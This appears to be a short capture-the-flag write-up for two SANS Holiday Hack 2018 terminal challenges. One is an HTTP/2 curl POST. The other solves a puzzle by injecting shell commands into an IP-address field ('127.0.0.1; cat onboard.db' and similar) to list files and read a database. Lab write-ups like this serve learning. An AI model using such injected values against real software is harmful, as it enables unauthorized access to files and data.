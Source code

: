 # Terminal Challenges

## CURLing Master (HHC 2018)
[URL] https://docker.kringlecon.com/?challenge=http2&id=51d42434-81cd-4850-a5a7-02d8f3edee30
```
1) Figure out how to curl using http2 (--http2-prior-knowledge)
2) Figure out how to send a post request (-X POST)
3) Figure out how to send parameter (-d "status=on")
curl -X POST -d "status=on" --http2-prior-knowledge http://localhost:8080
```

## The Name Game Terminal Challenge
[URL] https://docker.kringlecon.com/?challenge=pwshmenu&id=fb959815-faef-43e8-b792-67398d577b5b
```
1) Run the program to see what options we have
2) I tried command injection and it worked (127.0.0.1; pwd)
3) I used this command injection to enumerate the files and cat the database (127.0.0.1; ls -lah)
3a) (127.0.0.1; cat onboard.db) to get Mr. Chan's first name
4) Finally, ran the runtoanswer binary (127.0.0.1; ./runtoanswer)
```

![Testing] (https://github.com/billburn/ctf/blob/master/H2%20Matrix/Images/namegame-01.png)